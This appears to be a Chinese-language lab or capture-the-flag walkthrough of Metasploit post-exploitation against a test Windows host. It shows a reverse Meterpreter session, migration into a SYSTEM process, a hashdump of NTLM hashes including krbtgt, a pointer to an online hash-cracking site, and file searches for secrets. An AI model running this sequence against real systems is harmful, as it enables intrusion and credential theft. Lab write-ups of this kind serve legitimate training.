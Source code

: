 ```
[*] Sending stage (175174 bytes) to 10.10.142.53
[*] Meterpreter session 1 opened (10.9.1.236:4444 -> 10.10.142.53:53722 ) at 2022-01-22 09:02:21 -0500

meterpreter > 
```
### 計算機名稱是什麼？   
```
meterpreter > sysinfo
Computer        : ACME-TEST
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : FLASH
Logged On Users : 7
Meterpreter     : x86/windows

```


### jchambers 用戶的 NTLM 哈希是什麼？
```
1. 失敗 
meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.

2. 用ps顯示出其他process 然後migrate到其他的NT AUTHORITY\SYSTEM
試試看 

meterpreter > migrate 2516
[*] Migrating from 1648 to 2516...
[*] Migration completed successfully.
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a9ac3de200cb4d510fed7610c7037292:::
ballen:1112:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
jchambers:1114:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::
jfox:1115:aad3b435b51404eeaad3b435b51404ee:c64540b95e2b2f36f0291c3a9fb8b840:::
lnelson:1116:aad3b435b51404eeaad3b435b51404ee:e88186a7bb7980c913dc90c7caa2a3b9:::
erptest:1117:aad3b435b51404eeaad3b435b51404ee:8b9ca7572fe60a1559686dba90726715:::
ACME-TEST$:1008:aad3b435b51404eeaad3b435b51404ee:96fae44459c4e76244200221db3fd4b1:::
```
### jchambers 用戶的明文密碼是什麼？    
https://crackstation.net/ 到這破解

### “secrets.txt”文件在哪裡？
```
meterpreter > search -f secrets.txt
Found 1 result...
=================

Path                                                            Size (bytes)  Modified (UTC)
----                                                            ------------  --------------
c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt  35            2021-07-30 03:44:27 -0400

```
###  “realsecret.txt”文件在哪裡？
```
meterpreter > search -f realsecret.txt
Found 1 result...
```